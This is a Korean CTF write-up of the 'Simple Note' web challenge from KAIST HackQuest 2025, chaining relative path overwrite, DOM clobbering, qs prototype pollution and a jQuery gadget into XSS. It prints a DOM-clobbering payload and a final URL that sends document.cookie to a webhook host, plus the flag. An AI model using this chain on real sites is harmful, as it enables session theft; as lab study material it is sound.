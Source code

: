 ```yaml
---
title: 2025 HackQuest - Simple Note
published: 2025-07-22
description: " "
tags: [CTF_Writeup, hackquest, kaist]
category: CTF
draft: false
---
```

카이스트에서 주최한 HackQuest에 참가했고 웹 4문제 중 3문제를 풀었다.  
못 푼 한 문제가 아래에서 설명할 `Simple Note`보다 쉬운 문제였지만 헤메다 풀지 못했다. 

## Simple Note (Web)

```js
app.get('/track', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (p && p.author !== req.session.user) p.views++
  res.end(p ? 'views:' + p.views : '')
})

app.get('/view', (req, res) => {
  const id = req.query.id
  const p = posts.get(id)
  if (!p) return res.status(404).send('not found')
  res.send(`<!doctype html><html><head><meta charset="utf-8">
    <script src="./config.js"></script>
    <script src="https://code.jquery.com/jquery-3.5.1.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/qs@6.10.2/dist/qs.js"></script>
    </head><body id="main">
    <div id="content">${DOMPurify.sanitize(p.html)}</div>
    <div id="out"></div>
    </body>
    <script>
    let data = {}
    function merge(target, source) {
      for (const key in source) {
        const value = source[key];
        if (value && typeof value === 'object') {
          if (!target[key]) {
            target[key] = {};
          }
          merge(target[key], value);
        } else {
          target[key] = value;
        }
      }
      return target;
    }

    const params = Qs.parse(location.search.slice(1), { 
        depth: window.options.depth ? window.options.depth : 5,
        allowPrototypes: window.options.allowPrototypes ? true : false,
        parameterLimit: window.options.parameterLimit ? window.options.parameterLimit: 5
     })
    merge(data, params)
    $.get('/track?id=', data)
    </script>
    </html>`)
})

app.get('/config.js', (req, res) => {
  res.send(`
  window.options = {}
  window.options.depth = 20;
  window.options.allowPrototypes = false;
  window.options.parameterLimit = 20;  
  `)
})
```

작성한 노트를 그대로 보여주는 서비스이다.
html 삽입은 가능하지만 `DOMPurify.sanitize()` 되어 들어가기에 바로 XSS는 불가능하다.  

qs@6.10.2에 `CVE-2022-24999` Prototype pollution 취약점이 존재하고, `merge()` 함수에서도 pp가 일어난다.
그러나 `allowPrototypes`가 false이기 때문에 바로 Prototype pollution 하는 것 또한 불가능하다.

일단 처음으로 해야할 건 RPO다.
```html
<script src="./config.js"></script>
```
상대 경로로 config.js를 로드하고 있기에 `/view/?id=id` 처럼 뒤에 `/`를 붙이면 config.js의 로드를 막을 수 있다.

어차피 allowPrototypes는 계속 false이다. 여기서 RPO를 일으키는건 window.options가 initialize 되지 않게 하기 위해서다.

window.options가 할당되어 있지 않기에 Dom Clobbering으로 options를 덮어 allowPrototypes를 true로 설정할 수 있다.

```html
<form name="options">
     <input name="allowPrototypes" value="true">
</form>
```

이렇게 Dom Clobbering 페이로드를 작성한다

이제 `Prototype pollution`이 가능해졌다. XSS는 여전히 불가능해보일 수 있지만
여기서 찾은 방법이 `Jquery XSS by prototype pollution` 이다.

`$.get('/track?id=', data)`를 마지막에 사용하기에 XSS를 트리거 할 수 있다.

[레퍼런스](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/jquery.md)를 약간 변형해서 xss를 성공시켰다

최종 페이로드는 이렇다
```
http://158.247.241.230:10897/view/?id=29f97926-66da-4d01-9a80-b69c6b49da52&[constructor][prototype][url]=data:text/javascript;charset=utf-8,document.location.href='https://webhook/test?q='+%2Bdocument.cookie;//&[constructor][prototype][dataType]=script&[constructor][prototype][crossDomain]=
```

`flag: hackquest2025{caf7088a3562e36cb29876b8dd45a3384f4b0d0533ecc2778234b845693eca03}`